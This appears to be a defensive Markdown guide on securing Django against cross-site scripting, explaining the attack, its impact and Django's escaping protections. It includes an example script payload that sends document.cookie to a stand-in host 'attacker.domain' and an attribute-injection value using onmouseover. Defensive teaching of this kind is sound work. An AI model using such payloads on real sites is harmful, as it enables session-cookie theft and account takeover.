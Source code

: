 - We will be mostly talking about web security in this doc and specifically how can django be strong armed against all kind of attacks. 
- So it is preferable that the reader first goes through this [doc](https://docs.djangoproject.com/en/3.0/topics/security/).



## Cross site scripting

- __How does it work?__

  - An attacker somehow manages to inject a JavaScript into the web-page which is considered as a source code by browser and if user click on such element the JavaScript injected by attacker can perform dangerous actions with it.

- __What can attacker do if he able to pull off the injecting part?__

  - Malicious JavaScript has access to all the objects that the rest of the web page has access to. This includes access to the user’s cookies. Cookies are often used to store session tokens. If an attacker can obtain a user’s session cookie, they can impersonate that user, perform actions on behalf of the user, and gain access to the user’s sensitive data.
  - JavaScript can use the `XMLHttpRequest` object to send HTTP requests with arbitrary content to arbitrary destinations.
  - JavaScript in modern browsers can use HTML-5 API. For example, it can gain access to the user’s Geo-location, webcam, microphone, and even specific files from the user’s file system. Most of these APIs require user opt-in, but the attacker can use social engineering to go around that limitation.

- __Here is an example of how this attack works:__

  - Let's say we have a code in our web-page which looks like this:

    

    ```python
    webpage_response = f"""<html>
    <head>
    <title>comments/my_post</title>
    </head>
    <body>
    <h1>My Post latest comments</h1>
    <span>{{ database.latest_comments }}</span>
    </body>
    </html>"""
    return render(webpage_response)
    ```

    

  - Now if some attacker adds a comment to post which is:

    ```javascript
    <script>
    window.location="http://attacker.domain/?cookie=" + document.cookie
    </script>
    ```

    

  - When this web-page will be rendered by any of the website user this script is executed and the information that is stored as cookies will be sent to the attackers website.

  - Keep in mind that lot site keep client secrets in cookies.

  - More info can be found [here](https://owasp.org/www-community/xss-filter-evasion-cheatsheet).

- __How to save ourselves?__

  - Django templates [escape specific characters](https://docs.djangoproject.com/en/3.0/ref/templates/language/#automatic-html-escaping) which are particularly dangerous to HTML. While this protects users from most malicious input, it is not entirely foolproof. For example, it will not protect the following:

    ```css
    <style class={{ var }}>...</style>
    ```

  - If `var` is set to `'class1 onmouseover=javascript:func()'`, this can result in unauthorized JavaScript execution, depending on how the browser renders imperfect HTML. (Quoting the attribute value would fix this case.)

  - It is also important to be particularly careful when using `is_safe` with custom template tags, the [`safe`](https://docs.djangoproject.com/en/3.0/ref/templates/builtins/#std:templatefilter-safe) template tag, [`mark_safe`](https://docs.djangoproject.com/en/3.0/ref/utils/#module-django.utils.safestring), and when autoescape is turned off.

  - Most of the time the protection towards this kind of attacks is escaping the dangerous characters or syntax when anything in web-page is dynamic.